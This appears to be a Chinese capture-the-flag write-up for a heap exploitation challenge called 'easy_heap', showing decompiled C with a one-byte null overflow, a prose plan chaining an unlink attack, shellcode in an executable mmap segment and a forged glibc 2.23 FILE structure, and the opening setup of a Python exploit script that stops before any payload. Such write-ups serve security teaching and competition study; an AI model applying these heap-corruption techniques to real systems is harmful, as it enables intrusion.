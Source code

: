 <a name="easy_heap"></a>
### easy_heap

> 出题人：xxx
> 解题人数：12
> 最终分数：645


备注：引用kn0ck的wp

这个pwn题漏洞很明显，在0xe2d处，看⻅该读函数存在⼀字节溢出，该字节为0。

```c
unsigned __int64 __fastcall some_read_nterm_0end(char *dst, unsigned __int64 len)
{
 char buf; // [rsp+13h] [rbp-Dh]
 int i; // [rsp+14h] [rbp-Ch]
 unsigned __int64 v5; // [rsp+18h] [rbp-8h]
 v5 = __readfsqword(0x28u);
 for ( i = 0; i < len; ++i )
 {
 	if ( read(0, &buf, 1uLL) <= 0 )
 	{
 		perror("Read failed!\n");
 		exit(-1);
 	}
 	if ( buf == 10 )
 		break;
 		dst[i] = buf;
 	}
 	if ( i == len )
 		dst[i] = 0;
 	return __readfsqword(0x28u) ^ v5;
}
```

结合程序本身，只有程序基地址的泄露，以及mmap分配的可读/写/执⾏段的地址，没有libc或者堆栈地<br />址。由此⼤致可猜测这个是需要最终执⾏shellcode的。<br />⾸先可以使⽤⼀字节溢出进⾏unlink攻击，由此获取任意写的能⼒，将shellcode写⼊mmap段，然后就需<br />要考虑如何劫持控制流。<br />由于给的libc是2.23版本，该版本是没有对IO_File结构体的vtable进⾏检查的，所以这个可以通过篡改<br />unsorted bin的bk指针⾄ IO_list_all-0x10处，导致_IO_list_all被篡改，最终进⾏⼀个经典的⽂件结构体伪<br />造，vtable即指向我们可控的程序段，⾥⾯则写上mmap段地址，当出现堆错误打印信息时，即可触发。

```python
from PwnContext import *
if __name__ == '__main__':
	context.terminal = ['tmux', 'split', '-h']
	context.log_level = 'debug'
 #-----function for quick script-----#
	s 		= lambda data :ctx.send(str(data)) #in case that data is a int
	sa 		= lambda delim,data :ctx.sendafter(str(delim), str(data))
	st 		= lambda delim,data :ctx.sendthen(str(delim), str(data))
	sl 		= lambda data :ctx.sendline(str(data))
	sla 	= lambda delim,data :ctx.sendlineafter(str(delim), str(data))
	r 		= lambda numb=4096 :ctx.recv(numb)
	ru 		= lambda delims, drop=True :ctx.recvuntil(delims, drop)
	irt 	= lambda :ctx.interactive()

	rs 		= lambda *args, **kwargs :ctx.start(*args, **kwargs)
	leak 	= lambda address, count=0 :ctx.leak(address, count)

	uu32 	= lambda data :u32(data.ljust(4, '\0'))
	uu64 	= lambda data :u64(data.ljust(8, '\0'))

	ctx.binary = './easy_heap'
	ctx.remote = ('132.232.100.67', 10004)

	ctx.custom_lib_dir = '/root/share/project/glibc-all-in-one/libs/2.23-0ubuntu11_amd64'
	#ctx.remote_libc = './libc.so.6'
```